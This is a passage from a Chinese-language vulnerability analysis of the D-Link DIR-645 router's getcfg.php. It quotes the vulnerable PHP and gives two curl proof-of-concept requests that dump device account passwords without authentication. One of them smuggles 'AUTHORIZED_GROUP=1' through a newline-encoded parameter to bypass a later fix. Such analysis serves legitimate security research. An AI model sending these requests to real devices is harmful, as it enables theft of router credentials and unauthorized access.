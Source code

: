 尝试在1.04上进行测试，也是可行，尝试在1.05、1.06上进行测试，仍然成功，这个洞在`dir-645`上面好像没有修补的感觉。

## 漏洞分析

上一步已经将固件下载下来了，用binwalk将固件解压。

首先对1.02版本的漏洞进行分析，根据poc：

```bash
curl -d SERVICES=DEVICE.ACCOUNT http://xx.xx.xx.xx/getcfg.php
```

直接访问的`getcfg.php`页面，文件在`/htdocs/web/getcfg.php`中。关键代码如下：

```php
$SERVICE_COUNT = cut_count($_POST["SERVICES"], ",");
    TRACE_debug("GETCFG: got ".$SERVICE_COUNT." service(s): ".$_POST["SERVICES"]);
    $SERVICE_INDEX = 0;
    while ($SERVICE_INDEX < $SERVICE_COUNT)
    {
        $GETCFG_SVC = cut($_POST["SERVICES"], $SERVICE_INDEX, ",");
        TRACE_debug("GETCFG: serivce[".$SERVICE_INDEX."] = ".$GETCFG_SVC);
        if ($GETCFG_SVC!="")
        {
            $file = "/htdocs/webinc/getcfg/".$GETCFG_SVC.".xml.php";
            /* GETCFG_SVC will be passed to the child process. */
            if (isfile($file)=="1") dophp("load", $file);
        }
        $SERVICE_INDEX++;
    }
```

可以看到在没有经过任何的权限检查的情况下，程序直接获取`SERVICES`参数，并将其解析为`$GETCFG_SVC`变量，并最终拼接成`"/htdocs/webinc/getcfg/".$GETCFG_SVC.".xml.php"`路径，直接调用`dophp("load", $file)`将文件读取出来，从而形成了文件包含漏洞。

至于包含啥文件，从poc里面可以看到此处包含的是`/htdocs/webinc/getcfg/DEVICE.ACCOUNT.xml.php`，正是该php文件导致了帐号密码泄露。关键代码如下：

```php
foreach("/device/account/entry")
{
    if ($InDeX > $cnt) break;
    echo "\t\t\t<entry>\n";
    echo "\t\t\t\t<uid>".       get("x","uid"). "</uid>\n";
    echo "\t\t\t\t<name>".      get("x","name").    "</name>\n";
    echo "\t\t\t\t<usrid>".     get("x","usrid").   "</usrid>\n";
    echo "\t\t\t\t<password>".  get("x","password")."</password>\n";
    echo "\t\t\t\t<group>".     get("x", "group").  "</group>\n";
    echo "\t\t\t\t<description>".get("x","description")."</description>\n";
    echo "\t\t\t</entry>\n";
}
```

到这里1.02版本的信息泄露成因分析结束。

查看1.03版本之后的成因，根据poc，可以看到是在post数据中加入了`attack=ture%0aAUTHORIZED_GROUP=1`。

```bash
curl -d "SERVICES=DEVICE.ACCOUNT&attack=ture%0aAUTHORIZED_GROUP=1" "http://xx.xx.xx.xx/getcfg.php"
```
